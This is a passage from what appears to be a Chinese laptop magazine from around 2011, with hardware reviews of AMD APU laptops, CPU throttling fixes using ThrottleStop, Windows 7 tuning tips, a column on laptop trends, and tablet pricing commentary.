| 赛扬C857 | 1.2GHz | N | 2 | 2MB | 17W | HD graphic | 350MHz-1GHz | N | N | N |
| 奔腾P957 | 1.2GHz | N | 2 | 2MB | 17W | HD graphic | 350MHz-800MHz | N | N | N |
| i3-2357M | 1.3GHz | N | 2/4 | 3MB | 17W | HD3000 | 350MHz-950MHz | Y | Y | Y |
| i5-2537M | 1.4GHz | 2.3GHz | 2/4 | 3MB | 17W | HD3000 | 350MHz-900MHz | Y | Y | Y |
| i5-2467M | 1.6GHz | 2.3GHz | 2/4 | 3MB | 17W | HD3000 | 350MHz-1.15GHz | Y | Y | Y |
| i5-2557M | 1.7GHz | 2.7GHz | 2/4 | 3MB | 17W | HD3000 | 350MHz-1.2GHz | Y | Y | Y |
| i7-2617M | 1.5GHz | 2.6GHz | 2/4 | 4MB | 17W | HD3000 | 350MHz-950MHz | Y | Y | Y |
| i7-2637M | 1.7GHz | 2.8GHz | 2/4 | 4MB | 17W | HD3000 | 350MHz-1.2GHz | Y | Y | Y |
| i7-2657M | 1.6GHz | 2.7GHz | 2/4 | 4MB | 17W | HD3000 | 350MHz-1.0GHz | Y | Y | Y |
| i7-2677M | 1.8GHz | 2.9GHz | 2/4 | 4MB | 17W | HD3000 | 350MHz-1.2GHz | Y | Y | Y |

## 启动速度慢 联想“小Y”开机优化攻略

笔记本启动速度慢？遇到这种问题，绝大多数同学都会选用第三方软件来优化开机速度。如果你的笔记本是联想IdeaPad系列，用随机预装的Lenovo Boot Optimizer软件同样可以明显提升开机速度，而且没有任何“副作用”呢。

类似“安全卫士360”等软件也提供了优化开机加速的功能，但此类软件往往会忽略Windows各系统服务和进程之间的关联性，有时会关闭关键的服务或进程从而导致笔记本快捷键失效、无法共享WIFI网络等问题。

而Lenovo Boot Optimizer的原理是通过优化启动服务和进程的文件排列和优先级，关闭一些空闲的硬件检测流程来达到开机速度优化，没有后顾之忧。

在笔记本上安装Lenovo Boot Optimizer并重启，电脑后会在右下角的任务栏处弹出提示你优化系统的对话框，点击“立即优化”，软件会自动重启，在进入Windows界面前屏幕会显示优化的进度，稍等几分钟后优化完成。

等进入Windows系统后再重启一次后整个优化过程就完毕了，之后你就能享受到经过Lenovo Boot Optimizer软件优化后的快速开机了。

在开始菜单中运行Lenovo Boot Optimizer，软件会显示你最近几次开机的时间柱状统计图，建议在“高级设置”中关闭“自动优化”，否则当它每次检测到启动变慢都会自动优化。

笔者的笔记本为Y570 (i3-2310M版)，优化前大约需要58s，优化后每次开机的速度都有提升，最近几次都维持在34s左右，效果非常显著。此外，朋友的Y450A笔记本也能正常安装并运行（官方称该软件只支持Y470/Y570），只是优化幅度没有Y570那么明显，优化后的开机速度在40s左右。

### 小提示：

Lenovo Boot Optimizer是联想Y470/Y570随机预装的优化软件，但驱动光盘中并没有单独提供，联想大陆官网也不提供下载。如果你曾经自己重装过系统，可以登录联想中国台湾的官网下载：http://tinyurl.com/3rh955p。

每个笔记本品牌都会随机预装一些独有的特色软件，但很多同学在自己重装系统后，往往只顾安装最新的驱动程序，却忽略了这些特色软件的安装。希望今后大家可以正视这些看似无用的随机软件，有时候要比任何第三方软件更实用呢。

## 高端本玩游戏也会卡 破解因CPU降频引发的“血案”

最近读者孙海文新买了一款酷睿i5 + GT550M独显组合的高端游戏本，理论性能应该很强吧，但在玩某些游戏时却出现了卡顿的现象，使得游戏体验还不如采用酷睿i3的机型。排除硬盘和C1门外硬件缺陷外，孙海文发现每次卡顿现象的发生都伴随着CPU主频的降低，那么，是什么原因造成了酷睿i5在满负荷运行时自动降频而导致了游戏卡顿，我们又有什么方法加以解决呢？

### CPU主频缘何不升反降

酷睿i5/i7支持睿频2.0加速技术，按理说在玩游戏或一些高负载应用中会自动超频以提升性能，但为什么在需要加速的时候却自动降频了呢？笔者认为，搭载酷睿i5/i7处理器的笔记本往往也会与更高端的独立显卡（GPU）组合，以取得更好的游戏和娱乐体验，而Intel平台支持一项名为“BD PROCHOT”的技术，它会在CPU和GPU的温度、功耗明显升高时优先降低CPU的频率，以达到控制整机温度及功率保护的目的。应该说，这个设计的初衷是好的，可以有效防止笔记本过热和超出额定功率带来的损害，但一旦因功耗或温度引起CPU自动降频时必然会造成游戏的卡顿。至于进行游戏时CPU降频的根本原因，目前来看主要有以下几种：

- 功率的限制：一些笔记本厂商为新品配备的还是老产品的电源适配器，无法满足新版CPU和GPU满负载应用时的需求，此时BD PROCHOT功能开启，优先保证GPU的功率，而强行降低CPU的功率导致CPU降频。
- 温度的限制：在CPU和GPU的温度同时升高到笔记本设定的阈值时，BD PROCHOT功能开启，强制降低CPU的频率，减少发热以保护整机。
- 并非单一因素限制：即可能由温度和功率共同作用，但是我们可以看出，无论是哪种限制，都是GPU的工作优先级更高，因此CPU的频率总是会被优先降低。对此，笔者通过一系列测试，找到了防止CPU降频的解决方案。

### 方案一 系统设置防降频

调节“电源选项→高级设置”里的最大处理器状态，强制降低CPU主频，以达到减少CPU功耗和发热，防止降频的目的。首先先来看一个电源管理中处理器状态与处理器的频率的对应表（以酷睿i5-2410M为例）。通过电源管理，我们可以手动控制CPU的频率，降低CPU的功耗和发热后就能最大程度避免CPU自动降频。在进行游戏时，笔者建议将处理器的最大最小状态都调节为99%，关闭睿频，减少功率和发热，如果仍然存在降频卡顿现象，可以进一步调节为78%-98%。

| 状态 | CPU最大频率（睿频开启） |
| --- | --- |
| 100% | 2.3GHz（开启睿频，最高可达2.9GHz） |
| 99% | 2.3GHz（关闭睿频） |
| 78%-98% | 1.8GHz |
| 69%-77% | 1.6GHz |
| 60%-68% | 1.4GHz |
| 52%-59% | 1.2GHz |
| 43%-51% | 1.0GHz |
| 0%-42% | 0.8GHz |

### 方案二 关闭BD PROCHOT功能

对于酷睿i5和i7来说，睿频加速技术是其最大卖点，关闭此功能不就和低端的酷睿i3没有区别了吗？如果你想在玩游戏时让CPU一直保持在全速工作状态，则可以利用第三方软件“ThrottleStop”（下载地址http://www.techinfo.com.cn/downloads/）解除BD PROCHOT功能对功率和发热的限制，同时还可以锁定最大频率，防止降频。在笔记本上安装并运行该软件，首先在主界面点击“Options”按钮，在“Options”设置页中勾选“Unlock Bidirectional PROCHOT”项，点击“OK”按钮返回软件主页，去除“BD PROCHOT”选项前面的勾选，最后再点击主界面上的“Save”和“Turn On”按钮即可。

采用第二种方案的时候，由于关闭了BD PROCHOT功能，因此CPU温度可能会快速，建议安装鲁大师一类的软件随时监控CPU的温度变化。一般来说，笔记本全速运行时CPU最高温度不超过90度就算正常。

### 两种方案结合更合理

如果需要一个折中的效果，以上两种方案可以结合使用。如果你担心CPU在睿频加速状态时温度过高，可以手动降低CPU频率至合适值后，再开启ThrottleStop防止GPU功耗增加后使CPU再次降频。这样的话，既可以保证游戏的流畅度，又可以防止CPU和GPU的发热量过大损坏硬件。如果在游戏的同时给笔记本配备散热垫等辅助散热装置，也可以更好地控制温度。笔者的建议是：玩游戏时可把CPU最大最小状态在电源管理里调到99%（关闭睿频），然后开启ThrottleStop将CPU频率锁定为默认最高值（i5-2410M为2.3G，i7-2630QM为2.0G），防CPU降频以免卡顿。

读者孙海文所遇到的问题并非个例，很多笔记本专业论坛都有类似问题的讨论帖。如果你的笔记本在玩游戏等高负载运行状态时出现过卡顿，可以用CPU-Z一类的软件检测一下此时CPU的频率，如果是因为主频自动降低而引起的卡顿，不妨尝试一下本文中的解决方案。

## APU是否给力 华硕K43T笔记本体验

很多人都将Llano APU视为AMD挑战英特尔SNB移动处理器的杀手锏，那么这颗“真融合”的处理器能否为AMD在笔记本领域开疆拓土呢？在与SNB的性能较量中谁更出色呢？

华硕K43T是第一批搭载AMD Llano APU处理器的笔记本，这款产品搭载了四核心的A6-3400M处理器，由集成的HD 6520G与独立的HD 6650M组建强大的“交火”系统，借助IceCool技术可以让掌托始终保持在清凉的状态。这款产品标配一组USB3.0高速传输接口，5200mAh大容量电池可以让你看完3部电影（集显模式，大约4个半小时）。

### 测试平台：华硕K43T笔记本

| 处理器 | AMD A6-3400M（四核，1.4GHz/2.3GHz） |
| --- | --- |
| 芯片组 | AMD A75 |
| 内存 | 2GB DDR3 1333 |
| 硬盘 | 320GB 5400rpm |
| 显卡 | HD 6520G/HD 6650M双显卡 |
| 光驱 | DVD刻录光驱 |
| 屏幕 | 14英寸（1366×768） |
| 3DMarkVantage | E11101 |
| 3DMark11 | P1205 |
| PCMarkVantage | 3609 |

### 混合交火大有潜力

AMD Llano APU集成了HD6000G系列显卡，基本上代表了集成显卡的最强音。其中A6-3400M集成的是HD 6520G显卡，拥有320个流处理器，在3DMarkVantage测试中GPU成绩为8690分，小胜SNB处理器中集成的核心显卡，在实际的游戏体验中速度略高于核心显卡。虽然HD 6520G在性能上并没有大幅拉开与核心显卡的差距，但“混合交火”的功能却是后者所无法比拟的。

SNB笔记本上的双显卡只能在集显或独显状态下任选其一，而Llano APU的双显卡则可实现混合交火技术，让集显和独显同时工作。在3DMarkVantage软件测试中，华硕K43T在交火下的GPU成绩达到了18624分，与单卡相比性能提升明显。但在实际的游戏体验中，混合交火的效果就大打折扣了。在《孤岛危机2》和《星际争霸2》等游戏中，交火和独显模式的帧数仅有1fps~2fps的提升，在《生化危机5》中甚至还所有降低；但在《现代战争2》和《尘埃3》等游戏中则可获得10fps左右的提高，整个游戏体验会更流畅。

可见，协调独显与集显工作的关键还是得看驱动的优化，相信随着AMD今后发布更新的驱动，混合交火还大有潜力可挖。

### 核心数量并不代表一切

需要注意的是，GPU并不代表CPU，虽然A6-3400M在集成显卡的性能上超越SNB集成的核芯显卡，但就CPU自身的运算性能而言就稍逊一筹了。虽然A6-3400M拥有四核心的优势，但浮点运算能力与多核心效率偏低，在绝大多数测试环境中尚不敌英特尔方面双核的酷睿i3-2310M，可见核心数量并不代表一切。需要注意的是，表3的测试全部为理论性能，在现实的上网、看视频、玩游戏等具体应用中，A6-3400M和i3-2310M的差别并不明显。

### 主流价位的新势力

Puma（美洲狮）→Tigris（底格里斯河）→Danube（多瑙河），这些是AMD曾在笔记本领域推出的三代平台，但在残酷的市场竞争中只能在中低端市场找到立足之地。但随着Llano APU的出现，AMD在笔记本领域终于拿出了“拳头产品”，在性能上已经具备了挑战英特尔SNB平台的能力。令人欣喜的是Llano APU定位并不高，以A6系列挑战i3、A8系列决战i5，进一步丰富了主流价格段的笔记本品类。总之，Llano APU集成的HD6000G显卡可以在低功耗的前提下体验绝大多数3D游戏，确保电池更耐用；而混合交火的技术，则可进一步挖掘整体硬件平台的潜力，让游戏体验更流畅。

## 新手优化四步走 让你的笔记本运行如飞

如今网购笔记本越来越流行，免去了以往逛卖场、询价验机的麻烦，但与之对应的，就是我们也无法让销售人员重装或优化系统了。

想让笔记本运行如飞，对系统进行简单的优化操作是必不可少的。如果你感觉新买的本本运行不太流畅，不妨尝试一下本文的方法，简单几步操作免费为你的本本提速！

### 第一步：关闭系统休眠

在Windows 7系统下，休眠功能会占用大量的内存和系统盘资源，如果你不需要背着笔记本随时演讲，这个功能还是关闭为好。虽然在电源管理中有关闭休眠的选项，但设置后在C盘中还是会存在一个无法删除的超大的“hiberfil.sys”文件，想彻底关闭系统休眠功能，还需进行如下设置：

首先依次进入“开始菜单→所有程序→附件”，点鼠标右键以管理员身份运行“命令提示符”，在cmd命令提示符界面中输入“powercfg -h off”，按下“回车键”后系统休眠功能就关闭了。当你想恢复系统休眠功能时，按照相同的步骤进入cmd命令提示符界面输入“powercfg -h on”，再按下“回车键”即可重新开启。

    powercfg -h off
    powercfg -h on

### 第二步：关闭系统还原

从WinMe开始，Windows系统便加入了系统还原功能，原理是根据时间点对系统进行备份，关键时刻可帮用户恢复数据。但如今笔记本出厂都带有厂商提供的一键恢复功能，而且网上也有很多类似“一键ghost”的软件，Windows系统的还原功能就显得有些鸡肋了，而且它总会定期备份系统，造成磁盘空间的严重浪费。

依次进入“计算机→属性→系统保护”，在“使用保护”下的对话框中选中C盘，然后再点击“配置”按钮，在弹出的窗口中勾选“关闭系统保护”，并将“将最大使用量”调整到最小，最后点击“应用”按钮即可。

需要注意的是，尽量不要点击此界面中的“删除”按钮，否则会将“系统保护”这个系统组件一并删除掉，从而影响日后的系统升级（自动升级）。

### 第三步：转移虚拟内存

如今的软件和游戏非常耗费内存资源，在内存容量有限的情况下，系统默认会从硬盘系统盘（默认为C盘）中分配一部分空间作为系统的“虚拟内存”，从而减轻物理内存的负担。但是，将“虚拟内存”设置在C盘内会占用系统盘内的空间，久而久之产生的文件碎片也会影响系统的反应速度。我们接下来所要做的，就是将“虚拟内存”转移到其它盘符下（下面以D盘为例）。

依次进入“计算机→属性→高级系统设置→性能设置”，在性能选项窗口中点击高级选项卡内的虚拟内存“更改”按钮。在虚拟内存设置窗口中，先取消顶部的勾选，选择下方的“无分页文件”，点击右侧的“设置”，然后在上面的磁盘列表中选中“D盘”，再选择下方的“系统管理的大小”，点击右侧的“设置”，你会发现“托管的系统”变为D盘了，此时就能保存退出。

### 第四步：软件进行最后优化

做完上述操作后，我们还需要借助第三方软件优化开机启动项和系统服务项。对于普通用户而言，笔者推荐使用“360安全卫士”（下载地址：http://www.360.cn/），在电脑上安装并运行该软件，依次进入“功能大全→开机加速”功能菜单，点击“一键优化”按钮即可，软件会根据笔记本中的具体软件情况，自动禁用不常用的服务，并关闭不需要的开机启动项。根据笔者的经验，除了笔记本随机预装的“电源管理”、“快捷键控制”（关闭上述两项会造成快捷键失效，亮度无法调节等问题）以及必要的功能（比如蓝牙、银行U盾等）以外，其余的开机启动项和应用软件服务都能关闭，而系统关键服务尽量不要自己手动关闭。

至此，我们笔记本的优化就告一段落了，有没有感觉系统的反应和开机的速度变快了呢？

### 作者有话说

笔者身边的朋友，在购买笔记本后的第一件事就是格式化硬盘，重新安装Windows XP系统。诚然，XP有着我们最熟悉的界面，但现在很少硬件的功能或性能在XP下根本无法发挥出来，而官方也很少再提供XP下的驱动程序，用“驱动精灵”等驱动检索软件安装通用版驱动又会带来一系列不稳定的隐患。因此，笔者建议大家还是接受Windows 7系统吧，类似双显卡切换、睿频等新技术在此系统下才能完美发挥。

## APU家族再添新成员 AMD E450值不值得期待

通过Fusion APU加速处理器，AMD成功地从英特尔手中抢到了不少主流笔记本市场的份额。为了进一步巩固战果，最近AMD再次更新了E系列APU的产品线，推出了E450和E300两款新品。作为E系列APU中最高端的新品E450，它与E350相比有了哪些变化，值不值得我们选购呢？

### 游戏性能有所提升

与E350相比，E450主频的提升幅度有限，仅仅从1.6GHz升到了1.65GHz，因此我们不能指望E450在日常运算（如视频转换、文件压缩等）中能带来多么明显的提升，从测试软件的数据来看也是和E350基本持平。

与主频提升的“不给力”相比，E450将GPU部分升级到了HD6320，虽然其仍然只有80个流处理器，但核心频率起步就达到了508MHz，并支持Turbo Core智能加速技术，最高可以加速到600MHz。此外，从E450开始还加入了对DDR3-1333规格内存的支持，可以更好发挥集成GPU的潜力。事实证明，E450在3D性能的表现上更为抢眼，在1024×768普通画质下玩《WOW》时，E350的平均帧数在30fps左右，而E450则可在35fps左右，虽然人多时还会卡，但总体感觉有了一定的好转。

### 双内存意义不大

对Llano APU（如A6-3400M/A8-3500M）来说，想完全发挥集成GPU的性能需要2条以上的双通道内存，但对E系列APU而言，即使你升级到了2GB×2的内存，游戏方面的表现也和单条2GB内存没什么区别，因此大家在选购时无需刻意挑选搭配双内存条的产品。

### 平价上市值得选购

总体来看，E450主要强化了在游戏方面的表现，E350能玩的游戏用E450运行会更流畅，但E350卡到不行的游戏换成E450还是不会出现明显的改观。因此说，E450的性能虽有提升，但不足以成为给新品用于加价的理由。

好消息是，目前厂商新推出基于E450设计的产品定位还是比较厚道的。比如索尼VPCEL25EC，价格较采用E350的VPCEL15EC/B仅贵了100元，与换来的性能提升相比这点开销还是值得的。此外，类似ACER、联想、三星等品牌的E450新品上市价格就低于3000元，较E350当初上市时的3XXX元划算了多。总之，E450非常适合预算有限，对大型游戏不感冒又希望本本能具备更长续航时间的用户选择，并建议优先考虑与采用老E350处理器产品价位持平的E450新机器。

| 参数 | E450（新） | E350 | E300（新） | E240 |
|------|------------|------|------------|------|
| 主频 | 1.65GHz | 1.60GHz | 1.30GHz | 1.50GHz |
| 核心数量 | 2 | 2 | 2 | 1 |
| 缓存 | 1MB | 1MB | 1MB | 512KB |
| GPU | HD6320 | HD6310 | HD6310 | HD6310 |
| 流处理器 | 80 | 80 | 80 | 80 |
| GPU频率 | 508/600MHz | 492MHz | 488MHz | 500MHz |
| 内存规格 | DDR3-1333 | DDR3-1066 | DDR3-1066 | DDR3-1066 |
| 工艺/TDP | 40nm/18W | 40nm/18W | 40nm/18W | 40nm/18W |

| 测试项目 | E350 | E450 |
|----------|------|------|
| Win7 CPU/图形/游戏评分 | 3.7/4.2/5.7 | 3.9/4.5/5.9 |
| CINEBENCH R10（单核/多核） | 1036/1947 | 1166/2261 |
| CINEBENCH R11.5 | 0.63pts | 0.64pts |
| 3DMark06（总分/CPU） | 2405/1036 | 2841/1048 |
| 3DMark Vantage（总分/GPU/CPU） | E3304/4168/2037 | E3935/5767/2015 |

### 评测样机：索尼VPCEL25EC

- 处理器: AMD E450 (1.65GHz)
- 内存: 2GB
- 硬盘: 320GB
- 显卡: AMD Radeon HD 6320
- 屏幕: 15.5英寸 (1366×768)
- 光驱: DVD刻录光驱
- 重量: 2.7kg

索尼VPCEL25EC采用了15.5英寸超大屏幕，虽然牺牲了便携性但却换来了良好的视觉体验，而E450也非常适合体验高清播放和主流3D游戏。这款产品采用了颗粒式的巧克力键盘，手感出众，随机还预装了丰富的特色软件，上手也更为容易。

| 组件 | 详细信息 | 分数项 | 分数 |
|------|----------|--------|------|
| GFX | AMD Radeon HD 6320 series Graphics | 3DMark Score | 2769 |
| CPU | AMD E-450 APU with Radeon(tm) HD Graphics @ 1646MHz | SM2.0 Score | 959 |
| MEM | 1632 MB | HDR/SM3.0 Score | 1231 |
| OS | Windows 7 Home Basic | CPU Score | 1045 |

| 组件 | 详细信息 | 分数项 | 分数 |
|------|----------|--------|------|
| GFX | AMD Radeon HD 6320 series Graphics | 3DMark Score | 2841 |
| CPU | AMD E-450 APU with Radeon(tm) HD Graphics @ 1646MHz | SM2.0 Score | 970 |
| MEM | 3680 MB | HDR/SM3.0 Score | 1338 |
| OS | Windows 7 Home Basic | CPU Score | 1048 |

2GB内存和2GB×2内存时性能差别不大

## 不是都适合你 合理看待笔记本的“潮流趋势”

如今的笔记本，同质化现象日趋严重。同样的价钱，可以买到N多配置类似、性能相近的产品。为了重新夺得用户的眼球，并给自己产品一个“卖得贵”的理由，厂商们纷纷祭出新的杀手锏，或在外观、或在功能上大展手脚，试图从某个角度来引领所谓的“潮流趋势”，而消费者往往也愿意为“潮”而买单。毕竟，第一个“吃螃蟹”的人（厂商）能赚一把，而第一个“吃螃蟹”的人（消费者）也能炫耀一把。但是，并不是每种潮流都“够潮”，也不是所有潮流都适合你。合理看待当前笔记本的潮流趋势，并针对性地选择最适合自己的“潮”才“够范”！

### 趋势1：更轻、更薄、更强大

2008年2月19日，MacBook Air首度问世。虽然她拥有4mm（最薄处，最厚处也仅有17mm）的性感身材，但高昂的价格却将其限制在了小众市场。前不久，苹果将基于SNB平台设计的新款Air调至最低7698元，从而彻底激发了普通用户的购买欲望。同时也让英特尔和众多OEM厂商嗅到了新的商机。“UltraBook”概念就此诞生。所谓UltraBook，就是除苹果之外，其它品牌推出的厚度低于21mm（13英寸以上）或18mm（11英寸以内），还需采用SNB架构的英特尔ULV处理器（如i5-2467M）的极致轻薄笔记本的统称。对于不玩大型3D游戏的用户来说，UltraBook提供了更轻更薄的外表。集成核芯显卡的SNB ULV处理器也具备较强的娱乐性能，还能提供更持久的续航时间。在价格相近的情况下，谁能不被这种更“性感”的笔记本所诱惑呢？目前几乎所有的一线笔记本厂商都加大了对UltraBook的研发力度，在2012年的笔记本市场中，UltraBook很有可能成为最受瞩目的新星。

代表产品：ACER Aspire S3蜂鸟
ACER S3蜂鸟机身厚度约13毫米，重量约1.35kg，很好地诠释了“UltraBook”的定义。与MacBook Air相比，S3蜂鸟体积更小，还拥有更多的扩展接口，加入了类似瞬间唤醒技术等特色功能。内置320GB机械硬盘的版本售价7999元，250GB SSD硬盘的版本为9999元。

健圣小结：个人还是很看好UltraBook这种新形态产品的，超轻超薄超长续航，还能玩《WOW》和《星际争霸2》（适当降低画质即可），至少已经能满足我的使用需求了。但是，无论是ACER Aspire S3蜂鸟，还是其他品牌的UltraBook，从形态上始终背负着模仿MacBook Air的烙印，而且在Air降价后，如何控制成本并制定合理的销售价格将成为重中之重。说句现实点的，如果你家的UltraBook定价超过了7698元，请你给我一个为什么不选MacBook Air的理由先？

### 趋势2：倍儿要“面子”

房子要大平米的，买车要加长的，在街头小贩手上买包包也青睐印有“LV”图案的，怪不得人家都说中国人好面子呢。在手机屏幕都动辄4英寸甚至4.3英寸时，如果你的笔记本“不给面”可真的就有点说不过去了。对笔记本而言，屏幕加大后的好处多多：视野开阔了，数字小键盘回归了，散热效果也提升了。最关键的是我们随之付出的成本并没有明显增加。目前市面上最便宜的17.3英寸超大尺寸笔记本的价格不足3000元。如果你更注重性能，SNB处理器+GT540M级别配置的型号也不过5000元出头，可以说大面子与高价格之间并没有画上等号。老百姓有需求，成本也不算贵，拥有大面子的笔记本自然也会越来越多。

代表产品：三星700Z
三星700Z的外观设计和MacBook Pro很像，机身厚度仅23.9mm。700Z最大的特色就是在14英寸的机身上嵌入了一面15英寸的显示屏（1600×900像素），在不牺牲便携性的前提下最大限度提升了显示面积，适合喜欢大屏幕，又经常外出办公，喜欢娱乐的用户使用。

健圣小结：现在不少用户家里只有一部笔记本，平时上网、玩游戏、看电影全都指望这么一面屏幕。很多时候用户所需要的大屏幕，而不少品牌还是认定大屏笔记本必须和顶级配置挂钩，这就是高价大屏笔记本不好卖的根本原因。至少拿健圣来说，如果给我一万块钱，我会选择五千元的笔记本和五千元的DIY攒机的组合，毕竟后者所带来的游戏性能就足以让所有顶级笔记本汗颜了。

### 趋势3：嗓门越来越嘹亮

在玩游戏或看电影时，除了要有艳丽流畅的画面以外还需要什么感官上的冲击？没错，就是声音。在很多使用笔记本的场景中并不适合外接音箱或者连接耳机，此时笔记本之间比拼的完全就是内置的喇叭和所支持的音效技术了。由此，什么奥特蓝星，B&O，哈曼卡顿的品牌扬声器，以及SRS和杜比等音效的认证便大批量在笔记本身上加以应用了。在一些大尺寸笔记本身上甚至还内置了额外的低音炮单元。与普通的喇叭相比确实让耳朵更受用。当笔记本在性能上很难分出高下之际，强化产品的声音表现力已经成为更多厂商的首选。

代表产品：华硕N55SF
华硕N55SF系列采用了2个32mm扬声器，额外附赠独立的SonicMaster低音炮。就音效而言应该算是笔记本中最出色的。为了进一步增添卖点，这款产品还配备了NVIDIA较高阶的GT555M独立显卡，拥有144个流处理器，游戏性能同样强悍，而不足6000元的售价也具备不错的性价比。

健圣小结：在价格相似的前提下，笔记本嗓门自然是越响越好，但不要指望着我们可以为单纯的嗓音而付出更多的银子。就笔记本那“小身子板儿”，再著名的喇叭品牌与音效技术的结合也拼不过百十来块钱的外置2.1音箱。出众的音效可以为笔记本增色不少，但决不能作为唯一的卖点，只有和其它卖点“混搭”才是出路。

### 趋势4：遥控远程不愁

如今生活节奏越来越快，闲暇之余没有比躺在床上听音乐、看电影更爽的事情了。对笔记本用户来说，虽然可以用无线键鼠来操作笔记本，但远距离的情况下很难看清并点中屏幕上的菜单按键，如果将笔记本也放在床上又会担心底部的高发热量。因此，不少定位影音娱乐的笔记本大都会标配“MCE遥控器”，可以在Windows Media Center中远程控制多媒体文件。然而，MCE遥控器通常都比较丑，而且和笔记本分离的设计也不便于收藏。为了简化笔记本的操作，进一步增强远程操作的可玩性，更多的厂商打上了触摸板的主意。对笔记本来说，触摸板已经成为“最具潜力”的开发地段。

代表产品：ACER Ethos 5951G
5951G最大的特色在于可拆卸的触控板设计，触控板部分可以与主机分离，变成手持的无线触控式多媒体遥控器，进行相对自由的无线操作，比如躺在床上控制多媒体软件，在会议上用于切换PPT演示文档等。

健圣小结：让触摸板充当远程的多媒体遥控器创意虽佳，但关键在于不要因此大幅提高产品自身的售价，毕竟远程控制只能算是锦上添花的一个小功能，而不是必不可少的基础功能。何况，现在在iOS、Android和塞班系统手机上也有远程操作PC的软件，只需几步设置也能充当远程的遥控器使用，虽然麻烦点，手感差的，但至少是免费的。

### 趋势5：让明星当设计师

找明星代言产品，用广告狂轰滥炸的确是迅速增加产品认知的最有效方法。但当你抱着笔记本回家后，除了包装和宣传彩页上，哪里还有明星的影像呢？与其让明星说几句简单的广告词就把动辄7位数的代言费给赚了，还是让明星在赚钱的同时多费一些精力，多留一些汗水来的实在。而最理想的状态，当然是在笔记本身上也能印有明星的签名，或是一些值得纪念的图腾了。想当年联想曾推出过奥运和NBA主题的笔记本，前不久华硕也请来了周杰伦设计了一款主题笔记本，在特殊的时间段中起到了很好的促销效果，可见只要你的笔记本找对了明星设计师或情景主题，销路还是很有保障的。

代表产品：华硕N43周杰伦特别版
除了独具J式风格的外观外，这款产品还搭配了周杰伦亲手谱写的开机音乐以及亲笔签名。与简单找明星做代言相比，这款由Jay亲自操刀设计的笔记本显然更值得喜欢周董的同学关注。

健圣小结：找明星做代言，要卖出多少本本才能收回成本啊？虽然消费者中不乏追星族，但我们绝不能接受某款产品因有大牌代言就“身价倍增”。厂商用于广告代言或促销的成本尽量别转嫁到我们消费者身上，否则还不如花低价买一个配置类似，然后自己买张明星的贴画贴在笔记本外壳上呢，除了有“明星范儿”以外还能防划伤呢。

### 微软平板 姓Win8还是WP8

当听说Windows 8将同时兼容X86和ARM两种架构时，健圣着实激动了一下，但微软随后又在开发者会议上澄清，X86和ARM两种架构间的程序无法通用，也就是说现有的PC软件将无法在采用ARM架构的平板电脑上使用。不管你怎么想，反正健圣是有点懵了：微软平板电脑所装的系统，到底应该叫Windows 8还是Windows Phone 8呢？

为什么大家关注ARM？因为这种芯片的成本和功耗极低，只有它才“有机会”造出价格低于3000元，续航时间又能以天计算的平板产品。而英特尔X86架构处理器的成本较高，弄不好最终产品的价格会超过5000元。至少健圣是“败不起”的。现在的问题是，大家都能买得起的Win8平板只能用ARM，但这种产品又无法兼容我们常用的Windows软件，只能等待软件厂商推出针对Metro这个触控界面开发的新程序，不同的UI不同的构架，和大号的Windows Phone 7手机又有什么区别呢？

可能有同学会说，将PC软件（兼容X86平台的Win8平板）移植到ARM平台不就OK了吗？实际上这要比咱们想象的难得多。用鼠标和键盘操作的PC软件讲究操作的精准度，选项和按钮密集，很难用手指点中；而触控软件讲究的则是界面简洁和按钮醒目，放在PC上又有浪费空间之嫌。UI界面是一款软件的重中之重，各项功能的删减，重新编排相当于重新开发一个新软件！而这才仅仅是UI层面，至于如何打通X86与ARM两种架构不同指令集间的兼容性和执行效率，难度更是可想而知。到最后，移植到ARM版本的Win8软件可能只是X86版的功能简化版，想实现复杂的操作（比如PS的渲染等等）还需要借助PC才能完成。

从目前已知的消息来看，Win8平板将分为两大阵营：能兼容PC软件的X86体系将主打“移动PC”牌，强调接上键盘就是传统笔记本的概念；而ARM体系的Win8平板则主打低价与续航，能否被用户接受的关键就在Metro界面下游戏软件的数量与质量了。总之，健圣的理解就是采用X86处理器的平板姓Win8，至于那些基于ARM处理器设计的平板，姑且还是认为它们姓WP8吧。

小知识：Metro是什么
简单来说，Metro就是在Win8系统中的一套类似WP7系统的界面，各类应用都以Tile贴片的形式出现。此时系统并不会加载传统的Win桌面，简洁的界面可以带来出色的触控体验。在Win8中，传统的Win桌面就像是可随意打开或关闭的另一个应用程序，用户可以轻松在Metro界面与Win桌面之间切换，选择用手指或传统鼠标键盘来体验系统。

## 联想“搅局” 平板电脑结束暴利时代

国庆节前夕，联想将旗下7英寸乐Pad A1进行了千元以上的调价，2GB版本的售价仅1000元，16GB版本1399元。向从MP4转型的平板厂商发难。那么，我们应该如何看待联想此次的调价呢？降价后的A1对其他品牌又有哪些影响呢？

### 只是还原了真实价格

联想乐Pad A1，从2499到1399元，千元降幅令人震惊，难道联想真要打一场国产平板的歼灭战了吗？当然不是，联想A1最初上市时，国外售价仅199美元（折合人民币1268元），而国内的报价却高达2499元。除了商业送礼以外，对笔者这类普通用户而言绝对是一个“不靠谱”的价格，2499元已经可以买到配备Tegra 2的双核平板了！就配置而言，联想乐Pad A1只能算是中规中矩。德州仪器OMAP 3622处理器和512MB系统内存，和主流的Android手机在一个档次。在四核平板即将上阵的今天，如此配置也只能算是“入门”水准。原先2499元的售价实在是过于夸张。面对越来越强的千元级平板，以及逐步拉低价格的双核平板，联想此次的举动着实是不得不降。但降价后却能吸引更多眼球，明显拉动产品的销量，为“乐Pad”的品牌铺路。也算是一举多得吧。可以说，联想此次的调价只是还原了A1的真实价值。刚刚与国外销售的版本站在“同一价格起跑线上”。

### 你有千招技，我有一招灵

诚然，联想乐Pad A1的降价会对其它品牌的平板电脑造成冲击，但并没有想象的那么严重。目前国产平板电脑阵营的主力军几乎都是昔日MP4市场的老将们，他们更擅长“一力降十会”与价格战。决定平板电脑性能的核心在于处理器，德州仪器的OMAP 3622和国产瑞芯微RK2918、A10等相比的优势在于兼容性（主要以带数据包的高清3D游戏为主），但对选择此价位的平板用户而言，视频播放与网页浏览的比重很高，而OMAP 3622只能勉强播放720P的影片，但国产方案却可实现全格式兼容，并完美搞定1080P高清视频，还可以把画面输出到更大尺寸的电视上去。这是联想A1所无法实现的。另一方面，1399元的乐Pad A1和昂达、智器、爱国者等厂商的同类产品相比还有着400元以上的价差，对追求性价比的用户而言，即便A1拥有联想的金字招牌，仍然容易会被性能相近、价格更低的其它平板所吸引。

### 未来“Pad们”会更理性

